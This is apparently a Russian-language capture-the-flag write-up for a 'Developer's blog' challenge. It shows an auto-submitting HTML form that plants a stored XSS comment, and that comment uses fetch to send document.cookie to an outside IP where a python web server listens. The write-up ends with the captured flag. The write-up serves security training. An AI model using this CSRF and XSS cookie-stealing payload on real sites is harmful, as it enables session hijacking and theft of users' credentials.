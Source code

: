 # The Developer's blog
В коментах под постами есть xss, но сообщения хранятся сериализованными в куках, а не на сервере.

Готовим страничку с пейлоадом index.html:
``` html
<html>
<body>
  <form action="http://79.143.25.24:1338/post/3" method="POST">
    <input type="hidden" name="name" value="lul">
    <input type="hidden" name="text" value="<script>fetch('http://194.28.155.252:4221/' + document.cookie)</script>">
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

Запускаем веб-сервер:
```bash
python -m http.server 4221
```

В форму фидбека отправляем ссылку на страницу с пейлоадом. "Сергей" переходит по ссылке, срабатывает скрипт и отправляет POST запрос с xss в комментарий под постом, после чего открывается страница с комментарием, где срабатывает второй скрипт. Он делает запрос на мой сервер вместе с cookie файлом, который содержит флаг.

Флаг - deteact{5dbc68e9f2c722747e9bb2aa7b33e658}